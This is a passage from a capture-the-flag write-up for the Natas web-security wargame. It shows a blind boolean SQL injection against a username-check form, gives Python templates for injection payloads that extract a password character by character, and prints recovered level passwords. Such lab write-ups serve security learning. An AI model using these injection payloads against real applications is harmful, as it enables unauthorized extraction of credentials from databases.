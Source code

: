 - We are logged in to a page that reveals the password to `natas15`
- Password: `AwWj0w5cvxrZiONgZ9J5stNVkmxdk39J`

# Level 15 → Level 16

### Problem Statement

- The web-page for level 15 features a form with an entry-box for `Username`. Based on the existence of the entered `username` in the database, the web-page displays message like "This user exits." or "This user doesn't exist".
- The source code uses sql query to extract information from the database but under no circumstance does it allow the web-page to display any information on the database except for the message involving the existence of a username.

```sql
SELECT * FROM users WHERE username = "username"; 
```

### Hack

- We can use the `Username` field to inject queries to check if certain letters in the `password` for username `natas16` exist. If true, the web-page returns a "This user exists" message and if not "This user doesn't exist" .
- Starting with the first letter of the `password` we compare it against all possible characters using binary search algorithm. Once a match has been found we proceed to the next "position", so on and so forth.  The injection queries for comparison are as follows:

```sql
#natas16" AND BINARY substr(password, position, 1) = "some_char"  # 
test_query_equal = 'natas16" AND BINARY substr(password,' + str(position) + ', 1) = "' + all_characters[check_index] + '" #'

# natas16" AND BINARY substr(password, position, 1) >  "some_char"  # 
test_query_greater = 'natas16" AND BINARY substr(password,' + str(position) + ', 1) > "' + all_characters[check_index] + '"#'

# natas16" AND BINARY substr(password, position, 1) < "some_char"  # 
test_query_lesser = 'natas16" AND BINARY substr(password,' + str(position) + ', 1) < "' + all_characters[check_index] + '"#'
```

### Code:

- [https://gist.github.com/rachuacharya/e6511355e55cd26d7808a6bc027f505f](https://gist.github.com/rachuacharya/e6511355e55cd26d7808a6bc027f505f)
- Password: `WaIHEacj63wnNIBROHeqi3p9t0m5nhmh`

# Level 16 → Level 17

### Problem Statement
